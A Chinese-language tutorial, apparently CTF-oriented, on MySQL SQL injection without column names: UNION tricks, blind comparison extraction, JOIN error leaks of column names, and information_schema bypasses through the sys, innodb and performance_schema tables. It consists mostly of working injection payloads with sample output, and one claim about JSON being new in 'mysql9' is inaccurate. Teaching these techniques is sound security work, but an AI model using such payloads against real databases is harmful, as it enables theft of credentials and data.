

> 本文作者@zww

## 无列名注入

### UNION注入

``` sql
mysql> select * from newtable;      
+------+------+----------+
| id   | name | pwd      |
+------+------+----------+
|    1 | zww  | 123456   |
|    2 | zww2 | 1234567  |
|    3 | zww3 | 12345678 |
+------+------+----------+
3 rows in set (0.00 sec)
```
这是表newtable内的数据

接下来我们看看union注入中会遇到的一个小区别点
``` sql
mysql> select * from newtable union select 1,2,3;
+------+------+----------+
| id   | name | pwd      | << 重点看这里
+------+------+----------+
|    1 | zww  | 123456   |
|    2 | zww2 | 1234567  |
|    3 | zww3 | 12345678 |
|    1 | 2    | 3        |
+------+------+----------+
4 rows in set (0.00 sec)
```
与
``` sql
mysql> select 1,2,3 union select * from newtable;
+------+------+----------+
| 1    | 2    | 3        | << 重点看这里
+------+------+----------+
|    1 | 2    | 3        |
|    1 | zww  | 123456   |
|    2 | zww2 | 1234567  |
|    3 | zww3 | 12345678 |
+------+------+----------+
4 rows in set (0.00 sec)
```

通过这两个sql语句的对比，可以看到select 1, 2, 3在前的话，对应的列名也会变成1, 2, 3，所以这里是可以进行无列名注入的一个点

我们union注入的payload就是基于上面的原理
``` sql
mysql> select `1` from (select 1,2,3 union select * from newtable)a;
+------+
| 1    |
+------+
|    1 |
|    1 |
|    2 |
|    3 |
+------+
4 rows in set (0.00 sec)
```

这一句话的意思是将select 1,2,3 union select * from newtable的内容取名为 **表a**，然后再按照列名进行选择 (select \`1\` from a)
这里还有一个点是为什么要用 **\`1\`** 而不是 **1**。因为此时的表a的列名为数字1，2，3，所以需要用 **反引号** 对其进行转义

那么当有了前面的基础后，我们就可以进行无列名的注入了

假设现在有一个vulnerable sql
``` sql
select id,name,pwd from newtable where id='{$id}'; 
```
而我们需要通过无列名的payload进行sql的注入，拿到内容

可以使用下面这样的sql语句
``` sql
mysql> select id,name,pwd from newtable where id='111' union select 1,(select group_concat(`2`) from (select 1,2,3 union select * from newtable)c),3;
+------+-----------------+------+
| id   | name            | pwd  |
+------+-----------------+------+
|    1 | 2,zww,zww2,zww3 | 3    |
+------+-----------------+------+
1 row in set (0.01 sec)
```
payload:
``` sql
select group_concat(`2`) from (select 1,2,3 union select * from newtable)c)

-- 无逗号版本:
union select group_concat(a) from (select * from (select 1 `a`)m join (select 2 `b`)n join (select 3 `c`)t where 0 union select * from newtable)x
```

总体来说，使用的还是union注入的思路，只是这里将其中的一个列换成我们要填入的payload即可

注意这里需要用group_concat将\`2\`包裹，因为这一个无列名的payload会返回多行数据，而我们这里只能返回一个数据，所以可以使用group_concat将多行数据都连接起来，那么最后返回的也就是被我命名为2的列的数据了

### 比较注入

在mysql中两个select查询的比较，是 **按位** 比较的，即先比第一位，如果相等则比第二位，以此类推

在某一位上，如果前者的ASCII大，不管总长度如何，ASCII大的则大，这和c语言的strcmp()函数原理一样，举几个例子：

* a < flag{xxx}
* fla < flag{xxx}
* g > flag{xxx}
* flah > flag{xxx}

在这样的按位比较过程中，因为在里层的for()循环，字典顺序是从ASCII码小到大来枚举并比较的，假设正确值为b，那么字典跑到b的时候b=b不满足payload的大于号，只能继续下一轮循环，c>b此时满足了，题目返回真，这个时候就需要记录flag的值了，但是此时这一位的char是c，而真正的flag的这一位应该是b才对，所以flag += chr(char-1)，这就是为什么在还原数据的时候要往前偏移一位的原因

下面来看几个具体的比较

表flag的数据
``` sql
mysql> select * from flag;
+----+-----------+
| id | flag      |
+----+-----------+
|  1 | flag{xxx} |
+----+-----------+
1 row in set (0.00 sec)
```
这里使用 **\*** 代替列名进行注入
``` sql
mysql> select ((select 1,'a') > (select * from flag limit 1));
+-------------------------------------------------+
| ((select 1,'a') > (select * from flag limit 1)) |
+-------------------------------------------------+
|                                               0 |
+-------------------------------------------------+
1 row in set (0.00 sec)
```
因为ascii(a)是小于ascii(f)的，所以返回0

``` sql
mysql> select ((select 1,'G') > (select * from flag limit 1));
+-------------------------------------------------+
| ((select 1,'G') > (select * from flag limit 1)) |
+-------------------------------------------------+
|                                               1 |
+-------------------------------------------------+
1 row in set (0.00 sec)
```
但是在这个情况下，明明ascii(G)是小于ascii(f)，为什么会返回1呢

这是因为 **mysql默认是不区分大小写的** ，所以说实际上比较的是ascii(g)与ascii(f)，当然前者大，返回1

如果我们要比较ascii码的大小，那我们就需要使用**二进制字符串**进行比较

具体来说，mysql可以使用三类函数进行类型的转换
| Name | Description |
| ------ | ------ |
| BINARY | Cast a string to a binary string |
| CAST() | Cast a value as a certain type |
| CONVERT() | Cast a value as a certain type |

所以我们只需要使用函数，进行转换类型即可实现比较 

payload:
``` sql
## 使用binary
select ((select 1,(binary 'G')) > (select * from flag limit 1));
## 使用cast
select ((select 1,cast('G' as binary)) > (select * from flag limit 1));
## 使用convert
select ((select 1,convert('G', binary)) > (select * from flag limit 1));
```

或者可以使用mysql9中新增的数据类型json，因为json的string类型是大小写敏感的



payload:
``` sql
select ((select 1,concat('G', cast('0' as json))) > (select * from flag limit 1));
```

### JOIN报错注入

在某些开发者配置不当的场景下，服务器会返回sql查询的错误信息
这时我们就可以使用JOIN进行报错注入

表2的数据
```sql
mysql> select * from newtable2;
+------+-------+----------+
| id2  | name2 | pwd2     |
+------+-------+----------+
|    4 | zww   | 123456   |
|    5 | zww2  | 1234567  |
|    6 | zww3  | 12345678 |
+------+-------+----------+
3 rows in set (0.00 sec)
```

join的基本语法
``` sql
mysql> select * from newtable a join newtable2 b;
+------+------+----------+------+-------+----------+
| id   | name | pwd      | id2  | name2 | pwd2     |
+------+------+----------+------+-------+----------+
|    1 | zww  | 123456   |    4 | zww   | 123456   |
|    2 | zww2 | 1234567  |    4 | zww   | 123456   |
|    3 | zww3 | 12345678 |    4 | zww   | 123456   |
|    1 | zww  | 123456   |    5 | zww2  | 1234567  |
|    2 | zww2 | 1234567  |    5 | zww2  | 1234567  |
|    3 | zww3 | 12345678 |    5 | zww2  | 1234567  |
|    1 | zww  | 123456   |    6 | zww3  | 12345678 |
|    2 | zww2 | 1234567  |    6 | zww3  | 12345678 |
|    3 | zww3 | 12345678 |    6 | zww3  | 12345678 |
+------+------+----------+------+-------+----------+
9 rows in set (0.00 sec)

```
要理解各种JOIN首先要理解笛卡尔积。笛卡尔积就是将A表的每一条记录与B表的每一条记录强行拼在一起。所以，如果A表有n条记录，B表有m条记录，笛卡尔积产生的结果就会产生n*m条记录。在这里就是3\*3=9条记录

留意一下，上面使用join之后返回的数据中的列名分别由newtable的列名和newtable2的列名组成
那么，如果join之间的表格是同一个表格会怎么样呢？可想而知，列名会重复，这样就会造成sql查询报错，而这个报错类型会直接返回列名，这样我们就可以从报错信息中直接获取到表的列明了

payload:
``` sql
mysql> select * from (select * from newtable a join newtable b)c;                         
ERROR 1060 (42S21): Duplicate column name 'id'
-- 这里如果使用 select * from newtable a join newtable b 是不会报错的，原因应该是执行这个语句时并没有去遍历列名
```

这里报错信息直接给了第一列的列名
后序的列名只需要用“using(前一个列名)”即可

第二列
``` sql
mysql> select * from (select * from newtable a join newtable b using(id))c;
ERROR 1060 (42S21): Duplicate column name 'name'
```

## 获取表名
在有些情况下，因为过滤了or字段而导致information_schema这个库不能使用，这种情况下，我们如何查表名呢？

下面的payload参考了[MustaphaMond](https://www.cnblogs.com/20175211lyz/p/12358725.html)师傅

### Innodb

MySQL 5.6 及以上版本存在innodb_index_stats，innodb_table_stats两张表，其中包含新建立的库和表

```sql
select table_name from mysql.innodb_table_stats where database_name = database();
select table_name from mysql.innodb_index_stats where database_name = database();
```

### Sys

在MySQL 5.7.9中sys中新增了一些视图，可以从中获取表名

```sql
// 含有自增的字段的表
SELECT TABLE_NAME FROM `sys`.`schema_auto_increment_columns` where TABLE_SCHEMA = DATABASE();

// 包含in
SELECT object_name FROM `sys`.`x$innodb_buffer_stats_by_table` where object_schema = database();
SELECT object_name FROM `sys`.`innodb_buffer_stats_by_table` WHERE object_schema = DATABASE();
SELECT TABLE_NAME FROM `sys`.`x$schema_index_statistics` WHERE TABLE_SCHEMA = DATABASE();

// 不包含in
SELECT TABLE_NAME FROM `sys`.`x$schema_flattened_keys` WHERE TABLE_SCHEMA = DATABASE();
SELECT TABLE_NAME FROM `sys`.`x$ps_schema_table_statistics_io` WHERE TABLE_SCHEMA = DATABASE();
SELECT TABLE_NAME FROM `sys`.`x$schema_table_statistics_with_buffer` WHERE TABLE_SCHEMA = DATABASE();

// 不含x$
SELECT TABLE_NAME FROM `sys`.`schema_table_statistics_with_buffer` WHERE TABLE_SCHEMA = DATABASE();

// 通过表文件的存储路径获取表名
SELECT FILE FROM `sys`.`io_global_by_file_by_bytes` WHERE FILE REGEXP DATABASE();
SELECT FILE FROM `sys`.`io_global_by_file_by_latency` WHERE FILE REGEXP DATABASE();
SELECT FILE FROM `sys`.`x$io_global_by_file_by_bytes` WHERE FILE REGEXP DATABASE();
```

包含之前查询记录的表
```sql
SELECT QUERY FROM sys.x$statement_analysis WHERE QUERY REGEXP DATABASE();
SELECT QUERY FROM `sys`.`statement_analysis` where QUERY REGEXP DATABASE();
```

### Performance_schema
``` sql
SELECT object_name FROM `performance_schema`.`objects_summary_global_by_type` WHERE object_schema = DATABASE();
SELECT object_name FROM `performance_schema`.`table_handles` WHERE object_schema = DATABASE();
SELECT object_name FROM `performance_schema`.`table_io_waits_summary_by_index_usage` WHERE object_schema = DATABASE();
SELECT object_name FROM `performance_schema`.`table_io_waits_summary_by_table` WHERE object_schema = DATABASE();
SELECT object_name FROM `performance_schema`.`table_lock_waits_summary_by_table` WHERE object_schema = DATABASE();
```

包含之前查询记录的表
``` sql
SELECT digest_text FROM `performance_schema`.`events_statements_summary_by_digest` WHERE digest_text REGEXP DATABASE();
```

包含表文件路径的表
``` sql
SELECT file_name FROM `performance_schema`.`file_instances` WHERE file_name REGEXP DATABASE();
```
## 参考链接

* https://www.cnblogs.com/GH-D/p/11962522.html

* https://www.cnblogs.com/20175211lyz/p/12358725.html

* https://dev.mysql.com/doc/refman/8.0/en/json.html
